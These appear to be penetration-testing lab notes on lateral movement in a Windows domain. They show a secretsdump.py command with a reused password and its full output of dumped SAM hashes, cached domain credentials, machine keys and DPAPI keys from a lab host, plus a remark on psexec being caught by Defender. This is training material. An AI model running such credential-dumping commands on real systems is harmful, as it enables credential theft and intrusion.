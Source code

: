 ### Overview

- We used a password to pass around the network
- We have found that some machines have the same local admin
- We try and get access on those machines using psexec or other methods using metasploit
    - But it can get noisy and get picked up by Antivirus of Windows Defender as psexec will try and copy a remote connection file on the machine that it is targeting

---

### secretsdump.py usage

- Part of the **Impacket toolkit**.
- Extracts the following from machines:
    - **SAM hashes** (local accounts).
    - **LSA secrets**.
    - **DPAPI keys** (less critical for initial focus).

### Command Syntax

```Bash
python3 secretsdump.py marvel/fcastle:Password@01@192.168.213.130
```

- **Output**
    
    ```Bash
    ┌─[root@parrot]─[/home/z3tssu/TCM/impacket/examples]
    └──╼ \#python3 secretsdump.py marvel/fcastle:Password@01@192.168.213.130
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    [*] Service RemoteRegistry is in stopped state
    [*] Service RemoteRegistry is disabled, enabling it
    [*] Starting service RemoteRegistry
    [*] Target system bootKey: 0xefd6decb9e6c08b7f23bd5ea3ac84e6e
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:627a55d9b030f24af2c8f1a73a8b079a:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:16f0162fe46f7f1af9939f27ad5a8d6d:::
    [*] Dumping cached domain logon information (domain/username:hash)
    MARVEL.LOCAL/fcastle:$DCC2$10240\#fcastle\#32d5f2cd7f056aaebcf6325a4d839bd0: (2024-12-29 17:55:06)
    MARVEL.LOCAL/tstark:$DCC2$10240\#tstark\#3cc28255302a90f5b1ab6f045ba1e338: (2024-12-29 17:56:45)
    MARVEL.LOCAL/Administrator:$DCC2$10240\#Administrator\#29b1481e41f1c7de407ad8809b417687: (2024-12-30 15:04:07)
    MARVEL.LOCAL/superuser:$DCC2$10240\#superuser\#97174eb87bf7a19dd0b27f67ec01471c: (2024-12-30 17:01:49)
    [*] Dumping LSA Secrets
    [*] $MACHINE.ACC 
    MARVEL\PUNISHER$:aes256-cts-hmac-sha1-96:be7397210e0f734980973aedf254969de6ea07a92ca64ef314c30af09e7939c1
    MARVEL\PUNISHER$:aes128-cts-hmac-sha1-96:288ccbd7de0607a9ed2f16c1e30db81f
    MARVEL\PUNISHER$:des-cbc-md5:80bf5e3e7f19f1ba
    MARVEL\PUNISHER$:plain_password_hex:8451e880aac98e08c0582bfd687c65981b853e640439c74168733a587719177ac5364d5fd809aba27c5b33360617b7d8eae1d4f4bb56a636eac23553e87e1eba80e06d9586d7c70a9f6d2f78b07f3b13a6f0d6c5d4f22bc933cfef31fa8b54acb936e9af1a0271fdb57163da5bf8807ca2578130dd61ea2c73ff3a306c11b049c9d4f5dccb1e40e80c82ed1101f534dbf08ca6afb4f88c81025ff65692988ca943e46a6141ed2b4780e6f696c75bcd8ee898b979825bbb98b967d2807c7cf48af9fdbbdeed5a75e44128c8385bcfbac2e3951f410d184c3edb8cf9eef0d5c1229e02386f62569eaae3f26dbdeb0fe790
    MARVEL\PUNISHER$:aad3b435b51404eeaad3b435b51404ee:60b26a962e4d729d10143f9e02b6862c:::
    [*] DPAPI_SYSTEM 
    dpapi_machinekey:0xf376b79d8700c7be77f146b09d4bb6b82f1dad80
    dpapi_userkey:0x9c836c63bf06b4da3aaa9e126343914adb18c96b
    [*] NL$KM 
     0000   26 F2 F6 B9 D4 F7 9A 9B  00 D9 CC 60 F5 45 11 EC   &..........`.E..
     0010   3E EE C9 4E 17 7B 98 95  96 9E 54 A4 3F F0 54 FC   >..N.{....T.?.T.